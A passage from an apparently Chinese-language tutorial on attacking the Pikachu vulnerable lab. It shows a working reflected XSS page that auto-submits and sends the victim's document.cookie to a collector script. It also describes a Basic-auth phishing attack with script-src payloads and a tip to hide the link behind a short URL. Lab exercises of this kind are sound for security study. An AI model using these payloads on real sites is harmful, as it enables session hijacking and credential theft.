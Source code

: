 3. 结合 CSRF 攻击，伪造用户登录，进而对数据进行破坏......

### GET 类型

1. `get.html`：拟造包含 XSS Payload 页面，将其链接发给受害者（前提是受害者端的网站存在 XSS 漏洞），当受害者访问该链接后，XSS Payload 将会在受害者的浏览器中执行，然后将窃取到的数据 Cookie 发给黑客：

   ```js
   http://127.0.0.1/pikachu/pkxss/xcookie/get.html
   ```

   ```html
   <html>
   <head>
   <script>
   window.onload = function() {
     document.getElementById("postsubmit").click();
   }
   </script>
   </head>
   <body>
   <form method="get" action="http://127.0.0.1/pikachu/vul/xss/xss_reflected_get.php">
       <input id="xssr_in" type="text" name="message" value=
       "<script>
   document.location = 'http://127.0.0.1/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;
    </script>"
     />
       <input id="postsubmit" type="submit" name="submit" value="submit" />
   </form>
   </body>
   </html>
   ```

2. 其余同上述 POST 类型的 XSS 哟~



## 二. 钓鱼攻击

### 攻击原理

[黑客]向受害者发送一个链接 ——> [受害者]点击链接后会给[黑客]发送一个请求 ——> 该请求会返回一个用于身份信息验证的 Basic 头部给受害者，若[受害者]安全意识不足，则可能会导致引诱受害者输入敏感的账户等信息！ ——> [受害者]输入的信息将会发送给[黑客]

### Let's hack it！

1. `fish.php`：构造 XSS Payload

   ```js
   // XSS Payload 1: 这种链接如果让[受害者]直接访问，会很容易被发觉异常，建议使用相关工具将其装换为不易识别的短链接
   http://127.0.0.1/pikachu/pkxss/xfish/fish.php
   
   // XSS Payload 2: 利用的 XSS 漏洞最好是存储型，例如 XSS 关卡 http://localhost/pikachu/vul/xss/xss_stored.php
   <script src="http://127.0.0.1/pikachu/pkxss/xfish/fish.php"></script>
   ```

